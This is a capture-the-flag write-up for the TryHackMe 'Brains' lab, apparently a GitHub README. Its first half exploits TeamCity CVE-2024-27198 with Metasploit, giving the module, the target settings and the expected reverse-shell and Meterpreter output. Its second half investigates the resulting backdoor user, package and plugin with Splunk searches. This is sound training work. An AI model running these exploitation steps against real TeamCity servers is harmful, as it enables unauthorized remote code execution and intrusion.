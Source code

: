 ![Nmap Scan](Theme%20Brains.JPG)
> 🧠 Room: [Brains](https://tryhackme.com/room/brains)  
> 📅 Date: April 6, 2025  
> 🛡️ Goal: Gain reverse shell & capture the flag  
> 🚨 CVE used: CVE-2024-27198

<span style="color: red; font-size: 20px"><strong>🔴 RED exploit the server!</strong></span>
# 1. What is the content of flag.txt in the user's home folder?

<Details>
      
# 1. First Step: run in the Terminal "nmap -p- *Target_IP_Address* "

```bash
nmap -p- 10.10.252.192
````
 1. "nmap" -> The network scanner tool
 2. "-p-"  -> Scans all ports (from 1 to 65535). By default, Nmap scans only the top 1000 most common ports.
 3. "Target_IP_Address" -> The IP address of the target — in the case of the Brains room
      
![Nmap Scan](Brain%20Room%20Nmap%20scan.JPG)
   
# What ports are open and why they matter: 
   1. 22/tcp → ssh (This port is used for Secure Shell (SSH) — remote access to the machine via terminal.)
   2. 80/tcp → HTTP (This is the default HTTP port, used to serve websites.)
   3. 50000/tcp → ibm-db2 (detected by default) This is not a common service for this port. In this specific room (Brains), this port is hosting a TeamCity server, vulnerable to CVE-2024-27198.
   
# Run a targeted service/version scan for PORT 50000 "nmap -sV -p 50000 *Target_IP_Address* "
   ```bash
   nmap -sV -p 50000 10.10.252.192
   ```
   
# 2. Second Step: What port should we investigate further + Using Metasploit (msfconsole) to Exploit the TeamCity Vulnerability
   
   *The most interesting one here is Port 50000: even though it's labeled ibm-db2, we know now it runs TeamCity, which is vulnerable to authentication bypass and remote code execution (RCE).*
   ```bash
   msfconsole
   ```
   1. "msfconsole" -> This launches the Metasploit interface.
   
   ```bash
   search teamcity
   ```
   1. "search teamcity" -> This will list available exploit modules related to TeamCity
   *Look for one like: exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198*
   
#  Use the module:
   ```bash
   use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
   ```
# After loading an exploit module in Metasploit, you should always run: 
   ```bash
   options
   ```
   1. "options" -> This command shows you all the configurable parameters for the selected module
      
   ![Nmap Scan](Brain%20Room%20exploit%20run.JPG)
   
   *We need to set the correct options before running the exploit.*
   ```bash
   set RHOSTS 10.10.252.192     # Target IP address
   set RPORT 50000              # Target port where TeamCity is running
   ```
   *Once all the necessary parameters (like RHOSTS, RPORT) are configured and verified using the options command, it's time to execute the exploit*
   ```bash
   run   #or exploit
   ```
# Expected Output:
   *If the target is vulnerable and the configuration is correct, you should see output similar to this:*
   ```bash
   [*] Started reverse TCP handler on 10.10.X.X:4444
   [*] Sending stage (57971 bytes) to 10.10.X.X
   [*] Meterpreter session 1 opened ...
   ```
   *This confirms that you now have a meterpreter shell on the target machine!*
   
# Now That We Are in Meterpreter...Navigate the file system
   ```bash
   cd /home/cd ubuntu
   ls
   ```
   *Once you find it, read its contents*
   ```bash
   cat flag.txt
   ```
   ![Nmap Scan](Brain%20Room%20flag.JPG)
   
# ✅ CONGRATULATIONS!!! Now we have the first FLAG
# For ethical and platform policy reasons, I cannot display the actual contents of the flag.txt file
   *Instead, here is a simulated example of what the output would look like:*
   
   ```bash
   meterpreter > cat flag.txt
   THM{redacted_for_policy}
   ```
   </Details>

# BLUE lets investigate!
# 1. What is the name of the backdoor user which was created on the server after exploitation?
<Details>
   
# First Step: Access the Web Application
   *Once the target machine is deployed, open your web browser and navigate to the following address:*
   ```bash
   10.10.249.14:8000
   ```
   1. "10.10.249.14" -> The target machine's IP address
   2. "8000" -> The port number
   
# Second Step: Access Search & Reporting
   
   *In the left-hand panel, you can see a list of installed apps within Splunk; Click on Search & Reporting*
   
   ![Nmap Scan](Brain%20Room%20Web%20search.JPG)
   
# Search for the Backdoor User
   *Now that we are inside Search & Reporting, it's time to use Splunk’s powerful query system to investigate the logs and answer the first question*
   *We're going to search inside the authentication logs (auth.log) for entries related to the creation of new users.*
   
   ```bash
   source="/var/log/auth.log" *new user* #Set Time Range to “All time”
   ```
   ![Nmap Scan](Brain%20Room%20F1.JPG)

   *Look specifically for an event that occurred on 7/4/24 in the logs*
# ✅ CONGRATULATIONS!!! The value in place of [NAME] is the flag answer to the challenge question*

</Details>

# 2. What is the name of the malicious-looking package installed on the server?
<Details>

# Lets find the Malicious-Looking Package Installed on the Server
  *we’ll search in Splunk’s logs for any package installation events*

  ```bash
  source="/var/log/dpkg.log" date_month="july" date_mday="4" *install*

  # source="/var/log/dpkg.log" → This is the Debian package manager log, which records installed
  # date_month="july" → We filter by the correct month.
  # date_mday="4" → And the specific day of the event: April 7th, 2024 is interpreted as July 4 based on the system’s locale format in Splunk
  # *install* → We're looking for any entries that contain the word install, which is part of the log line when a package is installed.
  ```

  *Why This Date? We know from previous investigation that the exploitation happened on 7/4/24*
  *In the search results, you'll see lines like: install [PACKAGE-NAME] [version]*

# ✅ CONGRATULATIONS!!! The [PACKAGE-NAME] that looks suspicious is our answer to the question

</Details>

# 3. What is the name of the plugin installed on the server after successful exploitation?
<Details>

# Identify the Plugin Installed After Exploitation
 *we need to check TeamCity’s activity logs, which record changes in the system, including plugin uploads or installations.*

 ```bash
source="/opt/teamcity/TeamCity/logs/teamcity-activities.log" *plugin*

# source="/opt/teamcity/TeamCity/logs/teamcity-activities.log" → This is the log file where TeamCity activity events (like plugin actions) are recorded.
# *plugin* → We use a wildcard search to look for any lines that contain the word plugin, which likely appears during plugin installation.
```

# ✅ CONGRATULATIONS!!! Pro Tip: The plugin will appear in plain text, but when submitting the answer to the question, make sure to append .zip to the name

</Details>






